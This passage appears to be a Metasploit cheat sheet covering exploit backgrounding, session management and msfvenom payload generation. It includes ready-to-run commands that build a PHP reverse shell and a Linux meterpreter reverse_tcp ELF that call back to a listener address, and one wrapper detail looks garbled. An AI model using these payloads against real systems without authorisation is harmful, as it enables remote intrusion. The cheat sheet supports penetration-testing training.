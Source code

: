 **Tip**: if you want the exploit to run and background the session automatically:
```
exploit -z
```

## Sessions management

### Background/foreground

- Background current interactive session: `background` or CTRL+Z
- List sessions:
```
msf6 > sessions
```

- Interact with a session:
```
msf6 > sessions -i 1
# then you get shell or meterpreter prompt
```

### Sessions help options
```
msf6 > sessions -h
# options: -i (interact), -k (kill), -u (upgrade shell to meterpreter), -s (run script), etc.
```

## Msftools: msfvenom (payload generator)

`msfvenom` replaces `msfpayload` + `msfencode`. Use to build payloads across OSes and formats.

### List payloads
```
msfvenom -l payloads
```

### Common output formats

- `-f exe` (windows exe)
- `-f elf` (linux)
- `-f raw` (raw script, php, python)
- `-f asp` (ASP)
- `-f dll` (Windows DLL)

### Example payload generation

#### PHP reverse payload (raw)
```
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > rev.php
```

**Note**: some raw outputs require adding `<?php/??>` wrappers or editing to be valid files.

#### Linux ELF
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
chmod +x rev_shell.elf
```
